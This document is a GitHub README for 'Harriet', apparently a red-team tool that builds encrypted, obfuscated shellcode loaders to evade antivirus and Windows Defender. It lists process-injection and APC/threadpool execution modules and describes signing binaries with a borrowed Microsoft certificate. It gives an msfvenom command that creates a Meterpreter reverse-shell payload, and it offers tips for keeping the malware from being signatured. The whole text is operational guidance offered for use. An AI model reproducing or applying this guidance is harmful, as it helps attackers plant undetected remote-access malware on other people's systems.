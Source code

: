 ![Screen Shot 2022-10-02 at 10 29 43 AM](https://user-images.githubusercontent.com/76174163/193459711-647f63a7-b7e6-49b6-9659-f63cebdbeece.png)


**Meet Harriet!**

Harriet was inspired by the Charlotte C++ shellcode loader. This tool uses AES encryption and function/variable obfuscation to get around AV and Windows Defender. Most of the code was taken from the Sektor 7 Malware Development Essentials course. All credit goes to reenz0h and @Sektor7net. I wrote this mainly as a way to get a quick undetected executable for testing and to not have to switch over to a Windows VM every five seconds for compiling. 

![Screen Shot 2022-10-17 at 12 14 33 PM](https://user-images.githubusercontent.com/76174163/196229183-c96e9a38-8466-4ebd-81ab-35934877d559.png)

The payload framework is very effective when paired with my Covenant Randomizer script.

![Screen Shot 2022-10-17 at 12 15 10 PM](https://user-images.githubusercontent.com/76174163/196229270-49bb9d83-a18d-4cb6-b1b7-b798fca19d4c.png)

I was able to bypass Defender with Covenant with no problems.

![Screen Shot 2022-10-17 at 11 59 31 AM](https://user-images.githubusercontent.com/76174163/196239034-54866187-c461-4735-be81-9821c3a1e9a0.png)

I was also able to bypass Defender with a Meterpreter payload. This might not be as effective since Meterpreter is signatured so heavily. Your results will vary without modifying your Meterpreter payload's template inside Metasploit. Going with lesser used payloads will probably yield good results. 

**Modules**

![Screen Shot 2022-10-17 at 12 12 15 PM](https://user-images.githubusercontent.com/76174163/196239966-8d41b19b-6d66-4a80-a72c-4d1554197702.png)

There are four modules currently. As of this post, all of them bypass AV/Defender. 
 
AES Encrypted payload

AES Encrypted payload with process injection

QueueUserAPC shellcode execution

ThreadPoolWait shellcode execution. 

All of the modules use XOR encryption for strings and function obfuscation and AES encryption for payload exection. Once the payload is compiled, the script uses SigThief to sign the binary with a Microsoft certificate. 

**Usage:** 

Clone The Repo

**git clone https://github.com/assume-breach/Home-Grown-Red-Team.git**

Run The Setup Script

**cd Home-Grown-Red-Team/Harriet/
bash setup.sh**

Create Your Payload

**msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=IP lport=PORT -f raw > msfr.bin**

Run the Script

**bash Harriet.sh **

Fill In The Values As Prompted

**Mitigations**

There are a few issues that you should be aware of. The first is that this will be detected at some point. Eventually, it will wind up on VT or the AV engines will signature it. There are mitigations that you can take to customize it. The first is to change the Virt_Alloc variable in all of the scripts. The second is to change all of the values in the perl scripts. Adding various sleep functions within the scripts can also keep the script from being signatured. The binary that Harriet uses to sign your malware is a Microsoft Office 365 updater. You can switch this out with a different binary and replace the path for your new exe in the scripts. This can help with keeping your malware undetected. 

**Enjoy and DON'T UPLOAD TO Virus Total!!!!!**
